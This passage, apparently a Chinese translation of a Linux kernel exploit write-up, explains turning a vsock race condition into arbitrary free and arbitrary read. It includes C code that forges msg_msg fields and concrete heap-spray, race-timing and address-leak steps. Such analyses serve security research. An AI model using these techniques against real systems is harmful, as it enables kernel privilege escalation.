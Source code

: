 </div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
從洩露的內核地址釋放一個對象 執行堆噴，用受控數據覆蓋該對象 使用損壞的對象進行權限升級 內核實現的System V消息有限制最大值DATALEN_MSG，即PAGE_SIZE減去sizeof(struct msg_msg))。如果你發送了更大的消息，剩餘的消息會被保存在消息段的列表中。 msg_msg中包含struct msg_msgseg \*next用於指向第一個段，size_t m_ts用於存儲大小。當進行覆蓋操作時，就可以把受控的值放在msg_msg.m_ts和msg_msg.next中：

</div>
![](T01a51dfe7a996e854c.png "T01a51dfe7a996e854c.png")

Payload:

        #define PAYLOAD_SZ 40
        void adapt_xattr_vs_sysv_msg_spray(unsigned long kaddr)
        {
            struct msg_msg *msg_ptr;

            xattr_addr = spray_data + PAGE_SIZE * 4 - PAYLOAD_SZ;

            /* Don't touch the second part to avoid breaking page fault delivery */
            memset(spray_data, 0xa5, PAGE_SIZE * 4);

            printf("[+] adapt the msg_msg spraying payload:\n");
            msg_ptr = (struct msg_msg *)xattr_addr;
            msg_ptr->m_type = 0x1337;
            msg_ptr->m_ts = ARB_READ_SZ;
            msg_ptr->next = (struct msg_msgseg *)kaddr; /* set the segment ptr for arbitrary read */
            printf("\tmsg_ptr %p\n\tm_type %lx at %p\n\tm_ts %zu at %p\n\tmsgseg next %p at %p\n",
                   msg_ptr,
                   msg_ptr->m_type, &(msg_ptr->m_type),
                   msg_ptr->m_ts, &(msg_ptr->m_ts),
                   msg_ptr->next, &(msg_ptr->next));
        }

<div lang="chinese" dir="ltr" class="mw-content-ltr">
但是如何使用msg_msg讀取內核數據呢？通過閱讀msgrcv()系統調用文檔，我找到了好解決方案，使用msgrcv()和MSG標誌：

</div>
    MSG_COPY (since Linux 3.8)
            Nondestructively fetch a copy of the message at the ordinal position  in  the  queue
            specified by msgtyp (messages are considered to be numbered starting at 0).

<div lang="chinese" dir="ltr" class="mw-content-ltr">
這個標誌使內核將消息數據複製到用戶空間，不從消息隊列中刪除。如果內核有CONFIG_CHECKPOINT_RESTORE=y，則MSG是可用的，在Fedora Server適用。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
### 任意讀的步驟

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
準備工作： 使用sched_getaffinity()和CPU_COUNT()計算可用的CPU數量（該漏洞至少需要兩個）; 打開/dev/kmsg進行解析; mmap()將spray_data內存區域配置userfaultfd()作為最後一部分; 啟動一個單獨的pthread來處理userfaultfd()事件; 啟動127個threads用於msg_msg上的setxattr()&userfaultfd()堆噴射，並將它們掛在thread_barrier上; 獲取原始msg_msg的內核地址: 在虛擬套接字上進行條件競爭; 在第二個connect()後，在忙循環中等待35微秒; 調用msgsnd()來建立一個單獨的消息隊列；在內存破壞後，msg_msg對像被放置在virtio_vsock_sock位置; 解析內核日誌，從內核警告（RCX寄存器）中保存msg_msg的內核地址; 同時，從RBX寄存器中保存vsock_sock的內核地址; 使用損壞的 msg_msg對原始msg_msg執行任意釋放: 使用原始 msg_msg地址的4個字節作為 SO_VM_SOCKETS_BUFFER_SIZE，用於實現內存破壞； 在虛擬套接字上進行條件競爭； 在第二個connect()之後馬上調用msgsnd()；msg_msg被放置在virtio_vsock_sock的位置，實現破壞； 現在被破壞的msg_msg的security指針存儲原始msg_msg的地址(來自步驟2)；
